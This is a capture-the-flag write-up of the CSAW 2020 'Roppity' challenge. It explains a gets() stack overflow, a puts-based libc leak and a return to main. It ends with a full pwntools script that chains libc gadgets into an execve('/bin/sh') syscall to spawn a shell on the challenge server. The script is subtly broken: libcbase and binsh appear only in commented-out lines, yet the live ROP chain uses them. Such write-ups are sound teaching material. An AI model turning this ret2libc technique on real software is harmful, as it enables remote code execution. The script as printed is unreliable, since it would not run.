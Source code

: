 ```yaml
---
title: Roppity
date: "2020-09-16 22:04:31.582772"
description: "First ROP challenge from CSAW ctf 2020"
categories: ["code"]
---
```


Here's the simple ROP challenge from the CSAW 2020 qualifiers.  
To start off, when we enter some input we find that the program readily segfaults.

![Segfaults easily lol](../../assets/segfaulted.png)

Then using a disassembler (here I am using binaryninja, but you can use anyone you like), we find out that we're inputting into a buffer of size `0x20` using the `gets()` call.  
Since `rbp` is first to be pushed onto the stack, and the buffer size being offset from `rbp`, the total padding required is:

0x20 + 8 bytes for rbp = **40 bytes**

Since there is no win function, next thing we need is a way to pop the shell. There don't seem to be enough rop gadgets to pop a shell, and with the NX functionality enabled, it doesn't seem like we can use any shellcode.

![PIE disabled, NX enabled](../../assets/checksec.png)

In that case, the only thing to do is leak a libc address using the classic `puts(puts)` idea. We print out the address of puts in the GOT which should contain the address of puts in libc, by jumping to `puts@plt`.  
**Note:** We don't need to leak a code address since there is no PIE

Once we have the leak, since we know the libc version, the next problem is to run the gets call again, so that we can send in the the rop chain we generate from the libc.
To do this, we jump back to the main function, get it to repair the currently destroyed stack, and then enter in our ropchain.

The whole script is as follows.

```python
#!/usr/bin/env python3

from pwn import *

PROGNAME = "./rop"
REMOTEIP = "pwn.chal.csaw.io"
REMOTEPORT = "5016"

if args.REMOTE:
        p = remote(REMOTEIP, REMOTEPORT)
        elf = ELF(PROGNAME)
        libcelf = ELF('./libc-2.27.so')
else:
        p = process(PROGNAME)
        elf = p.elf
        libcelf = ELF('<system elf path>')
        gdb.attach(p)

# Requires 40 bytes of padding
padding = b'a' * 40

# puts address in the binary
# puts@plt
puts = 0x004004a0

# puts@got
putsGot = 0x601018

# pop rdi gadget for all the rop
popRdi = 0x0000000000400683

# Return to the main function to repair the
# destroyed stack
main = 0x004005dc

# run puts@plt with puts@got in rdi to leak a libc address
p.sendline(padding + p64(popRdi) + p64(putsGot) + p64(puts) + p64(main))

# stripping the newline
leak = p.readline()[:-1]

# the leak is only 6 bytes, with address being of the form: 0x0000<address>
libc = u64(leak + b'\x00' * 2)

# sadly the system('/bin/sh') doesn't work, possibly has been disabled
# libcbase = libc - libcelf.symbols['puts']
# libcsys = libcbase + libcelf.symbols['system']
# binsh = libcbase + next(libcelf.search(b'/bin/sh'))
# systemPayload = padding + p64(popRdi) + p64(binsh) + p64(libcsys)

# The rop chain magic
syscall = p64(libcbase + 0x00000000000d29d5)
popRsi = p64(libcbase + 0x0000000000023e8a) + p64(0)
popRdx = p64(libcbase + 0x0000000000001b96) + p64(0)
popRax = p64(libcbase + 0x0000000000043a78) + p64(59)
setBinsh = p64(popRdi) + p64(binsh)

# execve syscall
# rax: 59
# rdi: pointer to '/bin/sh\x00'
# rsi: 0
# rdx: 0
p.sendline(padding + popRsi + popRdx + popRax + setBinsh + syscall)
```
